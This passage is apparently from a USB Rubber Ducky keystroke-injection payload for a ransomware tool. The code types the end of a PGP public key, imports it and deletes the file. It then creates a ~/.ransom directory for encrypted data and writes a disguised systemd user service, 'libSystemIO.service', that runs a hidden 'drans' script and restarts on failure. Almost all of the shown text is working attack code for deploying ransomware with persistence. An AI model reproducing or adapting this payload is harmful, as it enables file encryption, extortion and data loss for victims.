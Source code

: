 ```
STRING Vq3EkSsZOiCd6YVrRUGP9Y39SPA/V4eWVox3QqJgo6sfyKb3InjVRCgJk9GnAquP
ENTER
STRING e+u4UkVpwfYhldbd3WwTSgzd7xqkym4QIsrds5q8NtWWj+kHo9LdVZ6hl11T83aO
ENTER
STRING Rd+dmVLPeNF6XJ60hm6n
ENTER
STRING =h69d
ENTER
STRING -----END PGP PUBLIC KEY BLOCK-----
ESC
DELAY 300 
STRING :wq
ENTER
DELAY 300
STRING gpg --import public.pub && rm -rf public.pub
ENTER


REM [Creating systemd service for non-root user]
DELAY 200
REM This is the path where encrypted directories will be stored
STRING mkdir ~/.ransom
ENTER
DELAY 100
STRING mkdir -p ~/.config/systemd/user && touch ~/.config/systemd/user/libSystemIO.service
ENTER
DELAY 200
ENTER
STRING cat >> ~/.config/systemd/user/libSystemIO.service
DELAY 200
ENTER
DELAY 50
STRING [Unit]
ENTER
REM You can change description
REM You can change service description
STRING Description = Ransom
ENTER
ENTER
STRING [Service]
ENTER
CTRL d
STRING echo ExecStart=/bin/bash /home/$(whoami)/.system/drans -no-browser >> ~/.config/systemd/user/libSystemIO.service
ENTER
STRING cat >> ~/.config/systemd/user/libSystemIO.service
ENTER
STRING Restart=on-failure
ENTER
STRING SuccessExitStatus=3 4
ENTER
STRING RestartForceExitStatus=3 4
ENTER
ENTER
STRING [Install]
ENTER
STRING WantedBy=multi-user.target
ENTER
CTRL d
ENTER

REM [dransomware]
DELAY 500
```